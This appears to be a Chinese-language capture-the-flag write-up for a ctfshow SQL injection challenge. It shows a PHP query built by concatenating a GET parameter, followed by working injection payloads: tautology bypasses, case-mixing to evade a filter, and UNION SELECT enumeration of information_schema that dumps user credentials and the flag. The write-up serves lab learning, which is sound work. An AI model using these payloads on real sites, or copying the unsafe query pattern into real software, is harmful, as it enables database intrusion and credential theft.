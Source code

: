 #### 链接

[https://blog.csdn.net/solitudi/article/details/110144623]: sql注入	"sql注入byY4tacker"
[https://blog.csdn.net/solitudi/article/details/109446561]: 
[https://www.cnblogs.com/tianyu0125/p/14006275.html]: 



查询语句

```mysql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```



返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```



payload



1. 万能密码直接查询所有

   ```mysql
   1' or '1' = '1
   1' or 1=1--+
   
   	
   flag{8c6d7511-aa4b-41b6-986c-626f5e4034cc}
   ```

   

2. 

尝试绕过过滤

##### 只要改成大写就可以绕过

```mysql
//判断注入
1' and 1=1--+

//判断字段
1' order by 3--+

//判段数据库
1' Union Select user(),database(),version()--+
root@localhost			ctfshow_web			10.3.18-MariaDB

//判断table
1' Union Select user(),table_name,version() from information_schema.tables where table_schema=database()--+
root@localhost			ctfshow_user			10.3.18-MariaDB


//判断字段

1' Union Select user(),column_name,version() from information_schema.columns where table_name='ctfshow_user'--+
root@localhost	id					10.3.18-MariaDB
root@localhost	username			10.3.18-MariaDB
root@localhost	password			10.3.18-MariaDB



//判断内容

1' Union Select user(),username,password from ctfshow_user--+

root@localhost	admin				admin
root@localhost	user1				111
root@localhost	user2				222
root@localhost	userAUTO			passwordAUTO
root@localhost	flag				flag{8c6d7511-aa4b-41b6-986c-626f5e4034cc}
```





